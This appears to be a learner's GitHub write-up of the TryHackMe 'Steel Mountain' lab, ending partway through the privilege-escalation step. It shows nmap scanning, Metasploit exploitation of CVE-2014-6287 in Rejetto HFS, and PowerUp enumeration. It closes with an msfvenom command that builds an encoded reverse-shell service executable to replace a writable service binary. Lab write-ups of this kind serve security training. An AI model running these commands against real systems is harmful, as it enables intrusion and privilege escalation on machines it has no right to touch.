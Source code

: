 # THM-SteelMountain
I lerarn how haced the Windows machine. I use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and I learn a new technique to get Administrator access.
< THM Steel Mountain room

#Task1 Open website in adress 10.10.135.167 in Virtaul Machine. I open page source preview to see name employee of the month: Bill Harper

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain1.png)


#Task2 I scan maschin the command: `nmap -sV -sC 10.10.135.167` and I find running web serwer on 8080 port. And another serwer Rejetto HTTP File Server

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain2.png)


#Task3 I find in exploit-database exploit "Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)" with number `CVE-2014-6287`.

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain3.png)


#Task4 I Use Metasploit to get an initial shell.
Command: 
````
msfconsole
search CVE-2014-6287
use 0
options
set RHOST 10.10.135.167
set RPORT 8080
exploit
````

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain4.png)
![This is an image]https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain5.png)

#Task5 Now I have access to system bill and I must find Desktop and user flag. I use many times command `cd ..` that  I been in directory 
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs and I want go to Desktop. 

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain6.png)

I find `user.txt` and on it flag.

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/dad0e029bde0c3497b42de1d77897a4d47ed3977/SteelMountain7.png)

#Task6 To enumerate this machine, I will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities.
I have to copy code PowerUp from GitHub. I use command : git clone https://github.com/PowerShellMafia/PowerSploit.git and code is in my home page.

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/fe641f35183ff4c3cb0a0e8184679a782874d5fd/SteelMountain9.png)

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/ad14fc0ac5ef54e934cfea32fd555cd297ab6ccd/SteelMountain10.png)

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/ad14fc0ac5ef54e934cfea32fd555cd297ab6ccd/SteelMountain11.png)


#Task7 Start power shell using 
command in the Meterpreter: 
``
powershell_shell
PowerUp.ps1
Invoke-AllChecks
``

![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/ad14fc0ac5ef54e934cfea32fd555cd297ab6ccd/SteelMountain12.png)


#Task8 I found to the CanRestart option that is set to true AdvancedSystemCareService9. 
The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!
 #Task9 Use msfvenom to generate a reverse shell as an Windows executable. I use command: `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.3.245 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe`
 
![This is an image](https://github.com/karolinaras/THM-SteelMountain/blob/ad14fc0ac5ef54e934cfea32fd555cd297ab6ccd/SteelMountain13.png)
